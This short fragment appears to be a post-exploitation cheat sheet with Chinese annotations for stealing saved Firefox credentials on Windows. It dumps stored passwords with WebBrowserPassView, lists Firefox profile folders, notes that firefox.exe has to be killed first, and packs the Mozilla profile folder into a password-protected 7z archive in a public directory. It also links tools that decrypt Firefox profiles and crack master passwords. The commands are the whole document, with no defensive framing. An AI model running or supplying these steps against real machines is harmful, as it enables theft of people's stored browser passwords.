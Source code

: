 	https://www.nirsoft.net/password_recovery_tools.html
	>webbrowserpassview.exe /LoadPasswordsFirefox 1 /shtml "c:\1.html"
	或
	>dir %appdata%\Mozilla\Firefox\Profiles\
	>dir %appdata%\Mozilla\Firefox\Profiles\yn80ouvt.default
	需先结束firefox.exe进程
	压缩
	>7z.exe -r -padmin123 a c:\users\public\firefox.7z C:\Users\Administrator\AppData\Roaming\Mozilla\*.* 
	https://github.com/unode/firefox_decrypt
	https://securityxploded.com/firefox-master-password-cracker.php